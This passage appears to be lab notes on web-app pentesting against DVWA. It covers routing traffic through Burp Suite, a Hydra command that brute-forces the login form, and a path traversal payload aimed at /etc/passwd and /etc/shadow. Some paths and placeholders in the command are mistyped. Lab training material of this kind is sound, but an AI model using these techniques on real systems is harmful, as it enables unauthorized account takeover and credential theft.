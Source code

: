 - choose Proxy 'localhost:8080' in order to route browser's traffic through Burp Suite
- make a login attempt and Burp intersepts this loging attenpt. Use Burp's data in order
crack the passwords with Hydra:

![burp-suite-interception](./burp-suite-interception.JPG)

```Bash
# as root@kali :

hydra -l admin -P /usr/share/john/password/lst 172.16.99.139 http-post-form "/dvwa/login.php:username=^USER^&password=^^PASS^&Login=Login:Login failed" -f
# where the 'Login failed' is the message from UI interface
# the -f flag denotes that command should exit when it find a valid pair user-pass
```
## Authorization vulnerabilies testing

- One Authorization vulnerability is the path traversal vulnerability ( server level we can change path and have direct access at files from server)

For example, in the URL of the website to hack,you can end the path with: `../../../../../../etc/passwd` (for a Linux based OS - for Windows we have ..\), where the use of ../ will be as high as needed to rich the root path(if there are too many occurences of `../` there will be no error). Thus you got into the passwords directory. Worst, if we can reach the shadow file, we get access to the file with actual passwords in encrypted format.
